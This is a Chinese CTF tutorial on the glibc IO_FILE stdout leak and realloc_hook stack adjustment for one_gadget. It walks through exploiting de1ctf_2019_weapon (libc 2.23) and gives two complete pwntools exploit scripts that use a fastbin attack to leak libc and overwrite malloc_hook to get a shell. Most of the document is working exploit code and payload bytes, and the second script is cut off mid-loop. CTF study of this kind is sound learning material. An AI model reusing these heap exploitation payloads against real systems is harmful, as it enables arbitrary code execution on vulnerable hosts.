# IO leak - 先知社区

IO leak


# 背景知识

部分堆题没有给予我们打印堆块中间的机会，这种情况下无法通过 unsortedbin 来泄露基址，这里学习一种新办法，通过 io file 来泄露基址。

应用范围：  
1、程序没有 show 函数  
2、开启了 FULL RELRO 保护

在一个程序中，初始的文件描述符为 1,2,3 分别对应着标准输入、标准输出、标准错误，当我们调用 scanf 函数或者 read 函数的时候 就会通过调用文件描述符 0 来从终端输入数据 也就意味着我们可以利用这一点来做到泄露数据。

在 linux 系统中的 IO 库，存在 FILE 文件流来描述文件，其初始创建的三个文件 stdin、stdout、stderr 位于 libc 上，而接下来创建的位于堆中，并且其是一个单向链表结构，定义此结构体为\_IO\_FILE\_plus

```bash
struct _IO_FILE_plus
{
    _IO_FILE    file;
    _IO_jump_t   *vtable;
}
```

\_IO\_list\_all 指向了 FILE 文件的链表头

```bash
pwndbg> p /x *(struct _IO_FILE_plus *) _IO_list_all
$1 = {
  file = {
    _flags = 0xfbad2086, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7ffff7dd2620,
    _fileno = 0x2, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = {0x0}, 
    _lock = 0x7ffff7dd3770, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd1660, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = {0x0 <repeats 20 times>}
  }, 
  vtable = 0x7ffff7dd06e0
}
```

\_IO\_list\_all 指向 \_IO\_FILE 的链表头部  
最开始查看的是 stderr 这个 FILE 文件 (上面的链表)  
stderr 中的 \_chain 指向 stdout  
stdout 中的 \_chain 指向 stdin

stderr-->stdout-->stdin

```bash
pwndbg> p /x *(struct _IO_FILE_plus *) 0x7ffff7dd2620
$2 = {
  file = {
    _flags = 0xfbad2084,  
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0,   
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x7ffff7dd18e0, 
    _fileno = 0x1, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = {0x0}, 
    _lock = 0x7ffff7dd3780,    
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd17a0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = {0x0 <repeats 20 times>}
  }, 
  vtable = 0x7ffff7dd06e0
}
```

```bash
pwndbg> p /x *(struct _IO_FILE_plus *) 0x7ffff7dd18e0
$3 = {
  file = {
    _flags = 0xfbad2088, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x0, 
    _IO_buf_end = 0x0, 
    _IO_save_base = 0x0, 
    _IO_backup_base = 0x0, 
    _IO_save_end = 0x0, 
    _markers = 0x0, 
    _chain = 0x0, 
    _fileno = 0x0, 
    _flags2 = 0x0, 
    _old_offset = 0xffffffffffffffff, 
    _cur_column = 0x0, 
    _vtable_offset = 0x0, 
    _shortbuf = {0x0}, 
    _lock = 0x7ffff7dd3790, 
    _offset = 0xffffffffffffffff, 
    _codecvt = 0x0, 
    _wide_data = 0x7ffff7dd19c0, 
    _freeres_list = 0x0, 
    _freeres_buf = 0x0, 
    __pad5 = 0x0, 
    _mode = 0x0, 
    _unused2 = {0x0 <repeats 20 times>}
  }, 
  vtable = 0x7ffff7dd06e0
}
```

\_IO\_file\_jumps 结构，该结构为所有的 FILE 文件所共用，存储的是一些函数的指针，我们也可以通过修改这些函数指针或者在可写区域伪造一个 vtable 结构。

```bash
pwndbg> p _IO_file_jumps
$9 = {
  __dummy = 0, 
  __dummy2 = 0, 
  __finish = 0x7ffff7a869d0 <_IO_new_file_finish>, 
  __overflow = 0x7ffff7a87740 <_IO_new_file_overflow>, 
  __underflow = 0x7ffff7a874b0 <_IO_new_file_underflow>, 
  __uflow = 0x7ffff7a88610 <__GI__IO_default_uflow>, 
  __pbackfail = 0x7ffff7a89990 <__GI__IO_default_pbackfail>, 
  __xsputn = 0x7ffff7a861f0 <_IO_new_file_xsputn>,  
  __xsgetn = 0x7ffff7a85ed0 <__GI__IO_file_xsgetn>, 
  __seekoff = 0x7ffff7a854d0 <_IO_new_file_seekoff>, 
  __seekpos = 0x7ffff7a88a10 <_IO_default_seekpos>, 
  __setbuf = 0x7ffff7a85440 <_IO_new_file_setbuf>, 
  __sync = 0x7ffff7a85380 <_IO_new_file_sync>, 
  __doallocate = 0x7ffff7a7a190 <__GI__IO_file_doallocate>, 
  __read = 0x7ffff7a861b0 <__GI__IO_file_read>, 
  __write = 0x7ffff7a85b80 <_IO_new_file_write>, 
  __seek = 0x7ffff7a85980 <__GI__IO_file_seek>, 
  __close = 0x7ffff7a85350 <__GI__IO_file_close>, 
  __stat = 0x7ffff7a85b70 <__GI__IO_file_stat>, 
  __showmanyc = 0x7ffff7a89b00 <_IO_default_showmanyc>, 
  __imbue = 0x7ffff7a89b10 <_IO_default_imbue>
```

# 原理介绍

通过篡改\_IO\_2\_1\_stdout\_结构体中的 flags 字段和\_IO\_write\_base 字段，通过篡改 flags 字段来绕过一些检查，通过篡改\_IO\_write\_base 字段使得系统调用 write 打印\_IO\_write\_base 字段与\_IO\_write\_ptr 字段之间的内容泄露出 libc 地址。  
通过 FILE 文件结构和 puts 函数达到泄露基址的目的

## puts 函数源码

```bash
#include "libioP.h"
#include <string.h>
#include <limits.h>
int
_IO_puts (const char *str)
{
  int result = EOF;
  size_t len = strlen (str);
  _IO_acquire_lock (stdout);
  if ((_IO_vtable_offset (stdout) != 0
       || _IO_fwide (stdout, -1) == -1)
      && _IO_sputn (stdout, str, len) == len
      && _IO_putc_unlocked ('\n', stdout) != EOF)
    result = MIN (INT_MAX, len + 1);
  _IO_release_lock (stdout);
  return result;
}
weak_alias (_IO_puts, puts)
libc_hidden_def (_IO_puts)
```

这里调用了个 \_IO\_sputn 函数，执行 \_IO\_sputn 函数过程中执行了 \_IO\_new\_file\_xsputn 函数，继续执行会调用 \_IO\_overflow 函数

上面 vtable 结构中： 
\_\_overflow = 0x7ffff7a87740 <\_IO\_new\_file\_overflow>  
所以 \_IO\_overflow 函数 会调用 \_IO\_new\_file\_overflow  
puts --> \_IO\_sputn --> \_IO\_new\_file\_xsputn --> \_IO\_overflow --> \_IO\_new\_file\_overflow

## \_IO\_new\_file\_overflow 源码

```bash
int
_IO_new_file_overflow (FILE *f, int ch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return EOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0 || f->_IO_write_base == NULL)
    {
      /* Allocate a buffer if needed. */
      if (f->_IO_write_base == NULL)
        {
            _IO_doallocbuf (f);
            _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
        }
      /* Otherwise must be currently reading.
     If _IO_read_ptr (and hence also _IO_read_end) is at the buffer end,
     logically slide the buffer forwards one block (by setting the
     read pointers to all point at the beginning of the block).  This
     makes room for subsequent output.
     Otherwise, set the read pointers to _IO_read_end (leaving that
     alone, so it can continue to correspond to the external position). */
      if (__glibc_unlikely (_IO_in_backup (f)))
        {
        size_t nbackup = f->_IO_read_end - f->_IO_read_ptr;
         _IO_free_backup_area (f);
         f->_IO_read_base -= MIN (nbackup,
                    f->_IO_read_base - f->_IO_buf_base);
         f->_IO_read_ptr = f->_IO_read_base;
        }
      if (f->_IO_read_ptr == f->_IO_buf_end)
        f->_IO_read_end = f->_IO_read_ptr = f->_IO_buf_base;
      f->_IO_write_ptr = f->_IO_read_ptr;
      f->_IO_write_base = f->_IO_write_ptr;
      f->_IO_write_end = f->_IO_buf_end;
      f->_IO_read_base = f->_IO_read_ptr = f->_IO_read_end;
      f->_flags |= _IO_CURRENTLY_PUTTING;
      if (f->_mode <= 0 && f->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))
        f->_IO_write_end = f->_IO_write_ptr;
    }
  if (ch == EOF)
    return _IO_do_write (f, f->_IO_write_base,
             f->_IO_write_ptr - f->_IO_write_base);
  if (f->_IO_write_ptr == f->_IO_buf_end ) /* Buffer is really full */
    if (_IO_do_flush (f) == EOF)
      return EOF;
  *f->_IO_write_ptr++ = ch;
  if ((f->_flags & _IO_UNBUFFERED)
      || ((f->_flags & _IO_LINE_BUF) && ch == '\n'))
    if (_IO_do_write (f, f->_IO_write_base,
              f->_IO_write_ptr - f->_IO_write_base) == EOF)
      return EOF;
  return (unsigned char) ch;
}
```

绕过第一个 if 判断，需要 f->\_flags & \_IO\_NO\_WRITES = 0  
绕过第二个 if 判断，需要 f->\_flags & \_IO\_CURRENTLY\_PUTTING = 1  
最后其调用了\_IO\_do\_write (new\_do\_write) 函数

## new\_do\_write 源码

```bash
static size_t
new_do_write (FILE *fp, const char *data, size_t to_do)
{
  size_t count;
  if (fp->_flags & _IO_IS_APPENDING)
    /* On a system without a proper O_APPEND implementation,
       you would need to sys_seek(0, SEEK_END) here, but is
       not needed nor desirable for Unix- or Posix-like systems.
       Instead, just indicate that offset (before and after) is
       unpredictable. */
    fp->_offset = _IO_pos_BAD;
  else if (fp->_IO_read_end != fp->_IO_write_base)
    {
      off64_t new_pos= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
          return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);
  if (fp->_cur_column && count)
    fp->_cur_column = _IO_adjust_column (fp->_cur_column - 1, data, count) + 1;
  _IO_setg (fp, fp->_IO_buf_base, fp->_IO_buf_base, fp->_IO_buf_base);
  fp->_IO_write_base = fp->_IO_write_ptr = fp->_IO_buf_base;
  fp->_IO_write_end = (fp->_mode <= 0 && (fp->_flags & (_IO_LINE_BUF | _IO_UNBUFFERED))  ? fp->_IO_buf_base : fp->_IO_buf_end);
  return count;
}
```

如果 fp->\_IO\_read\_end 的值设置为 0 那么\_IO\_SYSSEEK 的第二个参数值就会过大  
如果设置 fp->\_IO\_write\_base = fp->\_IO\_read\_end 的话 那么在其它地方就会有问题  
因为 fp->\_IO\_write\_base 不能大于 fp->\_IO\_write\_end  
所以这里要设置 fp->\_flags | \_IO\_IS\_APPENDING，避免进入 else if 分支  
综上所述 因此我们要泄露基址的话 需要将 flag 改为 0xfbad1800

```bash
payload = p64(0xfbad1800)+p64(0)*3+b"\x58" //泄露_IO_file_jumps
payload = p64(0xfbad3887)+p64(0)*3+p8(0)  //泄露_IO_2_1_stdin_
```

# 利用过程

1、将\_IO\_2\_1\_stdout\_结构体申请出来。  
2、往\_IO\_2\_1\_stdout\_结构体写入构造好的数据。  
3、执行任意一个 puts 函数，就可以将 libc 地址泄露出来。

## 申请

不同 libc 版本对于 stdout 结构体的申请： 
2.27 和 2.31:没有针对 tcachebin 的 fd 指针进行相关保护，tcache poisoning 修改其 fd 指针就可以直接将堆块申请出来，只要能控制 fd 指针，就可以直接将\_IO\_2\_1\_stdout\_结构体 (之后统称为 stdout 结构体) 申请出来  
2.23:fastbin 中申请堆块是对 size 位进行了检查。而我们能伪造 size 通过检查的地址只有 malloc\_hook-0x23 和 stdout 结构体地址 -0x43 这两处

爆破一比特申请 stdout 结构体：使用 io leak 的时候，我们肯定是没有 libc 地址的，那我们就无法直接将 tcachebin 或者 fastbin 的 fd 指针修改为 stdout 结构体地址，所以利要用 unsorted bin 中的 fd 指针.unsorted bin 中的 fd 指针指向的是 main arena+88 或者 main arena+96 的位置，这里是位于 libc 中。如果这个地址能出现在 fastbin 或者 tcachebin 中 fd 的位置，且我们可以对 fd 指针进行编辑，那我们就可以将其修改为 stdout 结构体地址 (stdout 结构体地址的后三位是固定的，但是倒数第四位会因为 ASLR 的原因而随机化，可我们只能写入两字节，无法写入一个半字节，因此倒数第四位只能通过爆破来预测)。

如何让 unsorted bin 中的 fd 指针出现在 fastbin 或者 tcachebin 中的 fd 的位置，这就属于八仙过海各显神通了，不同题目的思路都不一样。

## 编译

将 stdout 结构体申请出来后，正常情况下是可以往里面写入数据的。

我们需要覆盖 stdout 结构体中的\_flags 字段为 0xfbad1887，并且覆盖\_IO\_read\_ptr、\_IO\_read\_end、\_IO\_read\_base 这三个指针为 0，最后覆盖\_IO\_write\_base 指针的最后一字节为 00(这里并不是非要为 00，因为到时候 puts 函数会泄露\_IO\_write\_base 指针与\_IO\_write\_ptr 指针之间的所有数据，只要将\_IO\_write\_base 指针改的小于\_IO\_write\_ptr 指针并且确定这二者之间存在 libc 地址，那么都是可以的，只不过我通常将其覆盖为\\x00)

至于为什么要将\_flags 字段改为 0xfbad1887 这个值，是因为这个字段的各个比特位都属于标志位，不同比特位存在的意义不同，能绕过的检查也不同。而将\_flags 字段改为 0xfbad1887 这个值，正好可以绕过阻止我们完成 io leak 的所有检查 (具体是哪些检查又或者如何绕过的，可以去网上看一下其他师傅的博客，当时感觉师傅们写的很全并且很好，我就没再去单独写了)，然后 read 那三个指针，我试了一下，他们的值无所谓 (不一定非要写成 00)。

## 泄露

执行 puts 函数就泄露了 libc 地址

# realloc\_hook 调整栈帧使 onegadget 生效

在某些堆的题目当中，由于限制只能劫持 malloc\_hook，这种情况一般是往 malloc\_hook 写入 onegadget，再次申请堆来 getshell。但由于栈帧情况不满足，查询到的所有 onegadget 可能都打不通，这时就可以考虑下用 malloc\_hook 和 realloc\_hook 结合。先通过 realloc 调整栈帧，然后在运行 onegadget。

## realloc

realloc 在库函数中的作用是重新调整 malloc 或 calloc 所分配的堆大小。它和 malloc 函数一样有 hook 函数，当 hook 函数不为空时，就会跳转运行 hook 函数（和 malloc\_hook 一样的）。

```bash
__int64 __fastcall realloc(signed __int64 a1, unsigned __int64 a2, __int64 a3)
{
 ……
 if ( _realloc_hook )
 return _realloc_hook(a1, a2, retaddr);
    ……
```

```bash
.text:00000000000846C0 realloc         proc near               ; DATA XREF: LOAD:0000000000006BA0↑o
.text:00000000000846C0 ; __unwind {
.text:00000000000846C0                 push    r15    #0         ; Alternative name is '__libc_realloc'
.text:00000000000846C2                 push    r14    #2
.text:00000000000846C4                 push    r13    #4
.text:00000000000846C6                 push    r12    #6
.text:00000000000846C8                 mov     r13, rsi
.text:00000000000846CB                 push    rbp    #11
.text:00000000000846CC                 push    rbx    #12
.text:00000000000846CD                 mov     rbx, rdi
.text:00000000000846D0                 sub     rsp, 38h
.text:00000000000846D4                 mov     rax, cs:__realloc_hook_ptr
.text:00000000000846DB                 mov     rax, [rax]
.text:00000000000846DE                 test    rax, rax
.text:00000000000846E1                 jnz     loc_848E8  ; 跳转执行 realloc_hook
.text:00000000000846E7                 test    rsi, rsi
.text:00000000000846EA                 jnz     short loc_846F5
.text:00000000000846EC                 test    rdi, rdi
.text:00000000000846EF                 jnz     loc_84960
```

函数一开始有很多的 push，realloc 函数先执行 push 压栈，然后在跳转执行 realloc\_hook 存储的函数。我们就是利用这些 push 调整栈帧。push 的数量发生变化会影响 rsp 的地址，这样就可以控制 rsp 的取值，从而满足 onegadget 的执行条件。除了可以控制 push 数量，还能通过偏移得到其他的 push xxx。

```bash
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

我们可以用 realloc\_addr+offset 的方式来调整栈，offset 可取 0，2,4,6,11,12。依次减少了 push 的次数。push 指令会减小 rsp 的值，减少 push 指令个数相当于抬高栈，有利于满足 rsp+0x30==NULL。  
将 realloc\_hook 覆盖为 one\_gadget，然后将 malloc\_hook 覆盖为 realloc\_addr+offset  
这样劫持后的实际运行顺序：  
malloc -> malloc\_hook -> realloc -> realloc\_hook -> onegadget

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627165752-b30bac5e-14c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627165807-bc3957c2-14c8-1.png)  
多一个 push，rsp 向低地址移动一个单元

# de1ctf\_2019\_weapon ( libc2.23 )

## ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627165855-d8644d8a-14c8-1.png)

```bash
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  int v3; // [rsp+4h] [rbp-Ch]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    v3 = choice();
    switch ( v3 )
    {
      case 1:
        add();
        break;
      case 2:
        delete();
        break;
      case 3:
        edit();
        break;
      default:
        puts("Incalid choice!");
        break;
    }
  }
}
```

```bash
__int64 sub_B5A()
{
  int v1; // [rsp+8h] [rbp-18h] BYREF
  int v2; // [rsp+Ch] [rbp-14h]
  void *v3; // [rsp+10h] [rbp-10h]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("wlecome input your size of weapon: ");
  _isoc99_scanf("%d", &v1);
  if ( v1 <= 0 || v1 > 96 )  // 0 ~ 0x60
  {
    printf("The size of weapon is too dangers!!");
    exit(0);
  }
  printf("input index: ");
  v2 = choice();
  v3 = malloc(v1);
  if ( !v3 )
  {
    printf("malloc error");
    exit(0);
  }
  dword_202068[4 * v2] = v1;
  *(&unk_202060 + 2 * v2) = v3;
  puts("input your name:");
  read_size(*(&unk_202060 + 2 * v2), v1);
  return 0LL;
}
```

```bash
unsigned __int64 sub_CBB()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("input idx :");
  v1 = choice();
  free(*(&unk_202060 + 2 * v1));  //UAF
  puts("Done!");
  return __readfsqword(0x28u) ^ v2;
}
```

```bash
unsigned __int64 sub_D59()
{
  int v1; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("input idx: ");
  v1 = choice();
  puts("new content:");
  read_size(*(&unk_202060 + 2 * v1), dword_202068[4 * v1]);
  puts("Done !");
  return __readfsqword(0x28u) ^ v2;
}
```

这个就是一般的 UAF 然后没有 show 函数

## 思路

大致思路是利用 edit 来扩展 fastbin 中的堆块到 unsorted bin 中（最大申请 0x60，所以用这种方法），然后将 unsorted bin 中带有 main\_arena+0x88 的链条放入 fastbin 中，再通过 edit 修改 main\_arena+0x88 为 &\_IO\_2\_1_stdout_\-0x43 ( 这里开启 ASLR 的时候需要爆破一位 )，然后直接 add(0x60,11,b'\\x00'_0x33+p64(0xfbad1887)+p64(0)_3+b'\\x00') ，调用 puts 就泄露出 libc\_base 了，之后打个 fastbin attack 就行，就是构造两个 chunk 的 fastbin 链，然后编辑一下 malloc\_hook-0x23，之后就申请到 malloc-0x23 的位置，直接打 og 就行，需要注意的就是这里需要用 realloc 调一下栈帧。

## 详细流程

为了方便，我们先关闭 ASLR

```bash
su
echo 0 > /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
```

首先申请几个堆块，最后一个起保护作用。

```bash
add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
```

我们的目的是合并 chunk1 和 chunk8

```bash
delete(1)
delete(0)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170046-1a9c5fee-14c9-1.png)

```bash
edit(0,'\x50')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170100-22d24cd2-14c9-1.png)  
这时还没有在 0x555555757050 处伪造成功

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170108-27e61cda-14c9-1.png)

```bash
add(0x60,5,p64(0)*9+p64(0x71))
```

利用第一步的申请修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170122-2fecf3a4-14c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170135-37f701d4-14c9-1.png)

```bash
add(0x60,6,p64(0)*3+p64(0xe1))
```

修改 0x555555757070 处堆块的大小为 0xe1

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170150-4100c7e2-14c9-1.png)

```bash
delete(1)
```

成功扩展堆

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170209-4c12db0c-14c9-1.png)

```bash
delete(0)
delete(8)
edit(8,'\x70')
```

同样的手法再来一遍

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170229-57de9bec-14c9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170235-5bb1e742-14c9-1.png)

```bash
edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
```

这里是把 0xe1 改为 0x71 然后才能从 fastbin 中取出

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170302-6b8e73ce-14c9-1.png)  
打 fastbin attack 将 fake\_chunk 申请到 stdout 结构体上方，这个地址是在&\_IO\_2\_1_stdout_\-0x43 的位置，因为我们需要一个地址是 0x7f 开头，同时下一个内存单元为 0 的地址，这个位置就是符合的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170313-721ba978-14c9-1.png)  
这个地址的后三位是固定的，倒数第四位是随机的，但是我们只能写两字节因此第四位必须要去爆破，在调试的时候关闭 ASLR 就无需爆破了。

```bash
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')
```

然后 fake\_chunk 申请到 stdout 结构体上方后，我们去改变结构体的\_flags 字段和\_IO\_write\_base 字段 (偏移一定) 等再次调用 puts 函数的时候，我们就可以获取 libc 基地址了（需要注意的是将\_flags 字段改成 0xfbad1880，之后的 puts 都不会再加\\n了，因此要处理一下接收部分。不过用 0xfbad1887puts 都会再加\\n）

```bash
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)
```

泄露完 libc\_base 后，直接打 fastbin attack 就行了

```bash
add(0x60,10,'a') 
delete(10)
edit(10,p64(malloc_hook-0x23))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230627170349-87bc1628-14c9-1.png)

```bash
add(0x60,12,'a')
add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
```

这里 realloc 调栈上面介绍过了，然后 b'\\x00'\*0xb+p64(og) 可以当成固定的模板  
然后申请一下就 getshell 了

```bash
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
```

## exp ( 关闭 ASLR )

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)


add(0x60,0,'a')
add(0x60,1,'b')
add(0x60,8,'d')
add(0x20,7,'prevent_chunk')
delete(1)
delete(0)
edit(0,'\x50')
#duan()
add(0x60,5,p64(0)*9+p64(0x71))
add(0x60,6,p64(0)*3+p64(0xe1))
delete(1)
#duan()
delete(0)
delete(8)

edit(8,'\x70')

edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')

add(0x60,9,'a')
add(0x60,10,'a')
#duan()
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)

add(0x60,10,'a') 

delete(10)
edit(10,p64(malloc_hook-0x23))
#duan()
add(0x60,12,'a')

add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
#duan()
p.sendlineafter('choice >> ',str(1))
p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
p.sendlineafter('input index: ',str(14))
#duan()
itr()
```

## exp（开启 ASLR）

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
#p=remote('node4.buuoj.cn',29025)
elf = ELF('./pwn')
#libc=ELF('./libc-2.23.so')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.23.so')

def duan():
    gdb.attach(p)
    pause()

def add(size,idx,content):
    sla('choice >> \n',str(1))
    sla('wlecome input your size of weapon: ',str(size))
    sla('input index: ',str(idx))
    sa('input your name:\n',content)

def delete(idx):
    sla('choice >> \n',str(2))
    sla('input idx :',str(idx))

def edit(idx,content):
    sla('choice >> \n',str(3))
    sla('input idx: ',str(idx))
    sa('new content:\n',content)

def pwn():
    add(0x60,0,'a')
    add(0x60,1,'b')
    add(0x60,8,'d')
    add(0x20,7,'prevent_chunk')
    delete(1)
    delete(0)
    edit(0,'\x50')
    #duan()
    #debug(p,'pie',d_a,d_d,d_e,0xB35)
    add(0x60,5,p64(0)*9+p64(0x71))
    add(0x60,6,p64(0)*3+p64(0xe1))
    delete(1)
    #duan()
    delete(0)
    delete(8)
    edit(8,'\x70')
    #duan()
    edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
    add(0x60,9,'a')
    add(0x60,10,'a')
    add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3c5600
    leak('libc_base ',libc_base)
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    leak('malloc_hook ',malloc_hook)
    realloc=libc_base+libc.symbols['realloc']
    ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
    og=libc_base+ogs[1]
    leak('og ',og)

    add(0x60,10,'a') 

    delete(10)
    edit(10,p64(malloc_hook-0x23))
    add(0x60,12,'a')

    add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
    p.sendlineafter('choice >> ',str(1))
    p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
    p.sendlineafter('input index: ',str(14))
    #duan()


while 1:
    try:
        p=process('./pwn')
        #p=remote('node4.buuoj.cn',26485)
        pwn()
